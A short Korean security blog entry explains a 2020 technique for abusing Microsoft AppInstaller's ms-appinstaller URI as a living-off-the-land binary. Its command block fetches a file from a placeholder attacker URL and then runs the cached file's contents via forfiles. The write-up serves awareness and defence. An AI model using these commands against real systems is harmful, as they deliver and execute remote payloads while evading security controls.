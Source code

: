 ```yaml
---
title: "[하루한줄] Microsoft AppInstaller.exe Arbitrary File Download"
author: idioth
tags: [idioth, lolbin, lolbas, appinstaller, arbitrary file download]
categories: [1day1line]
date: 2020-12-03 18:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL 

https://twitter.com/notwhickey/status/1333900137232523264



## Target

- Microsoft AppInstaller



## Explain

Microsoft App Installer에서 arbitrary file download를 하여 lolbin([living of the land binary](https://www.cynet.com/attack-techniques-hands-on/what-are-lolbins-and-how-do-attackers-use-them-in-fileless-attacks/))으로 활용할 수 있는 방법이 발견 되었습니다.

웹 서버에서 앱 패키지를 다운로드할 때 과정을 간소화하여 효율적으로 하기 위해 웹 서버에서 직접 앱을 설치할 수 있는 기능을 제공합니다. 웹 페이지에서 앱 패키지를 호스팅하기 위해서 `ms-appinstaller:?source=` URI를 사용하여 `source=`에 명시된 주소에 있는 파일에 대한 앱 다운로드를 진행합니다. 이를 악용하여 해커는 자신의 악성 파일을 source에 작성하여 arbitrary file download을 진행할 수 있고 `forfiles` 명령어를 통해 앱 패키지 다운로드가 진행된 경로에서 파일을 조건문 등으로 검색하여 실행이 가능합니다.

```
start ms-appinstaller://?source=<hacker-url> && timeout <sleep-time> && taskkill /F /IM AppInstaller.exe > NUL

forfiles /P "C:\\Users\\%username%\\AppData\\Local\\Packages\\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\\AC\\INetCache" /S /M * /C "cmd /c if @fsize==<file-size> FOR /F \\"tokens=*\\" %g IN ('type @path') do (%g);" > NUL
```

![](2020-12-03/image.png)